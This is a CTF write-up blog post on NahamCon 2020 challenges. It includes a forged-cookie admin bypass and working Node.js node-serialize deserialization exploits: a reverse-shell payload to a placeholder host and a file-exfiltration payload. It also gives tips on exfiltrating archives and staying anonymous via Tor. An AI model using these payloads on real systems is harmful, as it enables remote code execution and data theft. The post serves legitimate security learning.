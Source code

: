 # NahamCon 

##### Jun 15, 2020

[NahamCon CTF](https://ctftime.org/event/1067) was a fun event last weekend.
I only had about 10 hours for it, so I did what tends to suit me best: crypto plus some misc challenges.
Overall I scored close to 1500, which is OK but there is always room to do more.

### Crypto

The crypto problems were largely a let-down, easy and/or of a guess-my-encryption type:

* **Docxor** was an attack on short-key-length xor with a guessable plaintext prefix (magic bytes)
* **Homecooked** was a custom scheme with super-slow decryption because of an inefficient primality test
* **Ooo-la-la** was a factorization attack on very-short-key RSA
* **Raspberry** was like RSA but with a modulus that was a product of many small primes (so another factorization attack)
* **December** was an attack on DES (you had to guess that one of the weak keys was used)
* **Twinning** was another short-key RSA factorization attack (once you realized that this always had p = q + 2, 
you could just solve for the primes)
* **Unvreakable Vase** was about reversing lower-cased base64 (e.g., you could check various capitalizations and see what they gave)
* I did not solve **Elsa4** during the contest - it was [LC4](https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html) encryption with a time-based random seed for the nonce
(you had to guess exactly how the seed was set)

### Misc

The misc problems did have some educational moments:

* **SSH Logger** was about stealing an SSH password as root via process monitoring (e.g., stracing children of sshd and snooping on strings read)
* **Glimpse** had a setuid-root Gimp 2.8 binary to exploit (you can actually run Python code with Gimp!)
* **Trapped** was about escaping`trap`in bash (by invoking trap again :o)
* in **Alkatraz** you had to read/print the flag file in restricted bash with no`cd`, no redirects, no / in executables, no history, readonly PATH and SHELLOPTS, and only`ls`in PATH (you could still load the file into history)
* **Awkward** was about exfiltrating the flag file using`awk`but there was no text output at all, you could only obtain exit codes (use getline, then leak the ascii code of the result character by character)
* **Fake File** was about finding a hidden flag file (`find . -exec grep ...` worked just fine)

### Some more poking around

Obviously, there is still much to learn. After the contest, I took a look at some of the web challenges:

* **Agent_95** was about faking a [Windows 95 user agent](https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident) header
* **Localghost** had data embedded in Javascript variables (probably lifted directly from another CTF because 
they had not adjusted the flag format :P)
* **Phphonebook** wanted you to guess the variable name to use in a POST request to trigger an emergency (it is *emergency*)
* in **Official Business** you had to exploit cookie verification in a buggy Python server 
(the server code was given away in robots.txt - this is only a CTF afterall :)
* **Seriously** was a Node JS [unserialization](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution) exploit, setting up an 
[immediately invoked function expression](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)
(the best trick I have learned from NahamCon challenges so far)

### Official Business

Hindsight is always 20/20, of course, but it can also give insight into the typical heuristics people use when
they race against time. Take, for example, **Official Business**: the job was to "log in as admin", and one could
get the [server code](/posts/NahamCon2020_Official_Business-server.py). The options looked like:

* matching the admin username and password

   ```python
user == "hacker"  
sha512(password) == b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
```

    ...but good luck with inverting SHA512.

* or, engineering (in hex form) a JSON cookie for which control makes it to the end of the function

   ```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")

    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")
            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

    so that it returns`True,...` The code checks for a cookie named *auth* that has a *digest* property,
which is then used in an integrity check on the cookie that involves the server's *secret_key*.
It may feel like "Game over" since that key is not known. However, *secret_key* turns out to be a Python string

   ```python
app.secret_key = open("secret_key", "r").read().strip()
```

    so concatenation with bytes inside the check throws an exception, and thus *any* digest passes!
(It would even be simpler not to have the cookie because then the whole if block is skipped;
however, in the index() function you need the *admin* property set to *True* to get the flag rendered.)

In the end, all that is required is a cookie`{"admin": True}`, which can be sent via a one-liner in curl. 
But it was likely [quicker](https://ctftime.org/writeup/21461) to get to the flag by simply trying 
a combination of whatever unique values appear in the code:

   ```python
{"user": "hacker", "password": "password", "digest": "hackshackshackshackshackshackshackshackshackshackshackshackshack", "admin": True}
```


### Seriously

My favorite problem at NahamCon is the Node JS unserialization exploit - **Seriously**. 
With a carefully crafted *cart* cookie in the challenge, the`server:port/cart` page that displayed the 
shopping cart could be used to execute arbitrary JS code on the server.
I have not heard about this vulnerability before,
so I decided to play with it.

Normally the cart cookie corresponded to something like
```js
{"items": {"0": {"name": "Haworthiopsis attenuata", "price": 19.99, "count": 1}}}
```
converted to string and then encoded via base64. 
But there were no integrity checks, so you could alter the cookie any way you wanted.
It so turns out that one can specify function-valued properties, and even so called 
[IIFEs](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) that are immediately invoked
when the cookie is unserialized (converted back from string) by the server.


#### Reverse shell

One [writeup](https://github.com/empty-jack/ctf-writeups/blob/master/NahamCONCTF-2020/web-seriously.md) exploited this
to spawn a reverse shell, so I tried a variation on that too. You do not need eval(String.fromCharCode(...)) part, just define
your function expression directly and serialize that:

```js
var c = {"items": {"0": {"name": function() {
               var client = new require('net').Socket()
               client.connect("PORT", "HOSTIP", function() {
                  var sh = require('child_process').spawn('/bin/sh',[]);
                  client.write("Connected!\n");
                  client.pipe(sh.stdin);
                  sh.stdout.pipe(client);
                  sh.stderr.pipe(client);
                  sh.on('exit',function(code,signal){
                     client.end("Disconnected!\n");
                  });
               });
            }
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}"}}', '}()"}}')        // insert () to make it an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

A shell is nice because it gives a lot of freedom besides finding flag.txt and printing its contents.
For instance, you can tar-gzip the whole challenge directory and exfiltrate it (about 5 MB). 
There were no networking binaries (nc, curl, telnet...) on the server but it did have a C compiler, so you could easily do TCP over 
sockets. Or just cat the tarball and redirect netcat's output stream.  

Looking at the server code, the exploit activates at

```js
cart = serialize.unserialize(Buffer.from(cart, 'base64').toString('ascii'));
return res.render('cart', { cart: cart, user: user });
```

i.e., the shell spawns right before the assignment to *cart*, then the unserialized object is used to render the cart page.
(You did not even need to have the auth cookie for this to work.)


#### Exfiltrate to browser

A reverse shell is useful but it is definitely an overkill. Moreover, it is a giant beacon to the perpetrator's computer
on the internet. It is much more anonymous to exfiltrate the flag to the browser, which could be Tor 
(or you could even curl through Tor). 
We have arbitrary code execution, so it is easy - just have the IIFE return the flag as a string:

```js
var c = {"items": {"0": {"name": function() {
               return require('fs').readFileSync("flag.txt");
            },"price": 987,"count": 2
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}","price', '}()","price')   // make it into an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

This way, when the cart is rendered, the name of the plant is the flag.

Using analogous steps, you can exfiltrate any file (such as the challenge directory tarball) by preparing it, reading it, converting
it to base64, and putting the result in place of the plant name. There were no limits on HTTP response length, so getting a 10-MB
base64 string out worked just fine in the challenge.

---

[back](/)

